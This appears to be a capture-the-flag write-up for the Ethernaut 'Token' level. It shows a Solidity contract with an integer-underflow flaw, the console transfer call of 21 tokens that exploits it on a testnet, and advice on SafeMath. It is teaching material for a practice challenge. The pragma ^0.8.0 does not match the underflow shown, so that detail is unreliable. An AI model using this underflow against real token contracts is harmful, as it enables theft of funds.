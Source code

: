 ## Ethernaut-solution

### 5.Token 

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

  Things that might help:

- What is an odometer?

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Token {

  mapping(address => uint) balances; //It's have no negative here, we're dealing with mapping to unsigned integer
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0); //this is know vulnerability or problem in solidity contract 
    //this is always going to yield true,  
    balances[msg.sender] -= _value; //msg.sender = player(me) this is gonna be yield token 20 
    //provide the current amount of tokens in this balances in mapping that th sender of this transaction has 
    
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

>contract.abi //各functionの確認
```
(4) [{…}, {…}, {…}, {…}]
0:
constant: undefined
inputs: [{…}]
payable: undefined
stateMutability: "nonpayable"
type: "constructor"
[[Prototype]]: Object
1: {inputs: Array(1), name: 'balanceOf', outputs: Array(1), stateMutability: 'view', type: 'function', …}
2: {inputs: Array(0), name: 'totalSupply', outputs: Array(1), stateMutability: 'view', type: 'function', …}
3: {inputs: Array(2), name: 'transfer', outputs: Array(1), stateMutability: 'nonpayable', type: 'function', …}
length: 4
[[Prototype]]: Array(0)
```


>await contract.balanceOf(player)

o {negative: 0, words: Array(2), length: 1, red: null}
length: 1
negative: 0
red: null
words: Array(2)
0: 20 //Token保有数
length: 2
[[Prototype]]: Array(0)
[[Prototype]]: Object

>contract.transfer('0x3E6fA38c7A61E80090A21a02a036f26fA28EC69a', 20 + 1 ） //address _to , uint _value


//now 20 is going to be decremented by the value that we're trying to send which is 21.

//as you know arithmetic underflow is going to yield a result that's greater than what you expected 

//知らん人にreinkebyのtokenを２１送りつけて自分のbalaneをminusにする
```
contract.transfer('0x1e8f83b55e1fa534a885a270ef6ed48f26778278', 20 + 1)
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}
```
```
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0xb9fa3072991a5b1e2bd1e9232c49469170be9ff7678b9fe942291eee9ca63142
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0xb9fa3072991a5b1e2bd1e9232c49469170be9ff7678b9fe942291eee9ca63142
```

//Tokenがzeroになったことを確認
```
>await contract.balanceOf(player)

o {negative: 0, words: Array(11), length: 10, red: null}
length: 10
negative: 0
red: null
words: Array(11)
0: 67108863
1: 67108863
2: 67108863
3: 67108863
4: 67108863
5: 67108863
6: 67108863
7: 67108863
8: 67108863
9: 4194303
length: 11
[[Prototype]]: Array(0)
[[Prototype]]: Object
```

Overflows are very common in solidity and must be checked for with control statements such as:
```
if(a + c > a) {
  a = a + c;
}
```
An easier alternative is to use OpenZeppelin's SafeMath library that automatically checks for overflows in all the mathematical operators. The resulting code looks like this:
```
a = a.add(c);
```
If there is an overflow, the code will revert.













